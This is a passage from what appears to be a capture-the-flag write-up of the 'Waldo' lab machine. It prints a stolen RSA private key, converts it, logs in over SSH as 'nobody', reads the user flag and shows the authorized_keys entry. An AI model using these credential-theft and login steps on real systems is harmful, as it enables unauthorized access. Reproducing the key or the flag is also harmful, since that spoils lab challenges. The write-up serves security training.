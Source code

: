 ```
{"file":"-----BEGIN RSA PRIVATE KEY-----\nMIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl\nmR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f\n87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS\ndGCc\/gNpW\/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN\no8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8\/6pceowqs9ujRkNzH9T1lJq4Fx1V\nvi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl\/wdmuPEW6kU\nvmzhRU3gcjuzwBET0TNejbL\/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR\/6\npKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5\n8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q\n1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox\/05qoOBL4kQxUM7\nVxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS\ndVa3yLECgYEA7jk51MvUGSIFF6GkXsNb\/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO\nv0og0X\/iROXAcp6Z9WGpIc6FhVgJd\/4bNlTR+A\/lWQwFt1b6l03xdsyaIyIWi9xr\nxsb2sLNWP56A\/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY\nqFfdAWrvVZjp26Yf\/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI\nyzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1\n\/pAcw\/+\/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw\/IMnLa3drm3CIAa32iU\nLRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ\/\nlnN2n1WyTIyEuGA\/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp\nw7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9\n1HLmBkDTjjj\/xAJAZuiOF4Rs\/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT\nrj1BhUCzZCUgQABtpC6vYj\/HLLlzpiC05AIEhDdvToPK\/0WuY64fds0VccAYmMDr\nX\/PlAoGAS6UhbCm5TWZhtL\/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2\nDvVny8gKbM\/OenwHnTlwRTEj5qdeAM40oj\/mwCDc6kpV1lJXrW2R5mCH9zgbNFla\nW0iKCBUAm5xZgU\/YskMsCBMNmA8A5ndRWGFEFE+VGDVPaRie0ro=\n-----END RSA PRIVATE KEY-----"}
```

Let's write a quick script to clean this up into something usable..

```
$ ./print_id_rsa.pl > id_rsa.nobody
```

```
$ ssh -i id_rsa.nobody nobody@10.10.10.87
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.
waldo:~$ ls
user.txt
waldo:~$ cat user.txt
32768bcd7513275e085fd4e7b63e9d24
```

And we're in!

```
waldo:~$ cat .ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzuzK0MT740dpYH17403dXm3UM/VNgdz7ijwPfraXk3B/oKmWZHgkfqfg1xx2bVlT6oHvuWLxk6/KYG0gRjgWbTtfg+q3jN40F+opaQ5zJXVMtbp/zuzQVkGFgCLMas014suEHUhkiOkNUlRtJcbqzZzECV7XhyP6mcSJFOzIyKrWckJJ0YJz+A2lb8AA0g3i9b0qyUuqIAQMl9yFjnmwInnXrZj34jXHOoXx71vXbBVeKu82jw8sacUlXDpIeGY8my572+MAh4f6f7leRtzz/qlx6jCqz26NGQ3Mf1PWUmrgXHVW+L3cNqrdtnd2EghZpZp+arOD6NJOFJY4jBHvf monitor@waldo
```

Interesting to note that the authorized public key is associated with
`monitor@waldo`, so that seems to make sense why there was a hidden file called
`.monitor` containing the private key.

### OWN SYSTEM
